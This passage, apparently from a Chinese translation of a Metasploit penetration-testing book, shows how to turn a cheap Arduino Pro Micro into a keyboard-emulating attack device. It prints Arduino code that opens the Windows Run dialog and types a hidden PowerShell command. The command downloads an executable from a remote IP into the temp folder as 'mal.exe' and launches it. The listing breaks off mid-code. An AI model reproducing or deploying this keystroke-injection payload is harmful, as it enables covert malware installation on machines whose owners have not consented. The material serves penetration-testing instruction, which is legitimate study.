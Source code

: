 单击“确定”按钮将强制所有通信量到达端口`8080`上的前一个地址，该地址只不过是我们的 Autown 服务器的地址。

# Metasploit 和 Arduino-致命的组合

基于 Arduino 的微控制器板是一种微小而不寻常的硬件，在渗透测试中可以充当致命武器。一些 Arduino 板支持键盘和鼠标库，这意味着它们可以用作 HID 设备：

![](img/805955d7-654d-41b1-a4c5-153611bc715b.jpg)

因此，这些小小的 Arduino 板可以悄悄地执行人类的动作，如键入键、移动和用鼠标单击，以及其他许多事情。在本节中，我们将模拟 Arduino Pro 微型板作为键盘，从远程站点下载并执行恶意负载；然而，这些小板没有足够的内存来保存内存中的有效负载，因此需要下载。

有关使用 HID 设备进行攻击的更多信息，请参阅 USB Rubber Ducky 或 Teensy。

**Arduino Pro Micro**在[等热门购物网站的售价不到 4 美元 https://www.aliexpress.com/](https://www.aliexpress.com/) 还有很多其他的。因此，使用 Arduino Pro Micro 比使用 Teensy 和 USB 橡胶 Ducky 便宜得多。

使用其编译器软件配置 Arduino 非常容易。精通编程概念的读者会发现这个练习非常简单。

参见[https://www.arduino.cc/en/Guide/Windows](https://www.arduino.cc/en/Guide/Windows) 了解有关 Arduino 的设置和入门的更多信息。

让我们看看需要在 Arduino 芯片上刻录哪些代码：

```
#include<Keyboard.h>
void setup() {
delay(2000);
type(KEY_LEFT_GUI,false);
type('d',false);
Keyboard.releaseAll();
delay(500);
type(KEY_LEFT_GUI,false);
type('r',false);
delay(500);
Keyboard.releaseAll();
delay(1000);
print(F("powershell -windowstyle hidden (new-object System.Net.WebClient).DownloadFile('http://192.168.10.107/pay2.exe','%TEMP%\\mal.exe'); Start-Process \"%TEMP%\\mal.exe\""));
delay(1000);
type(KEY_RETURN,false);
```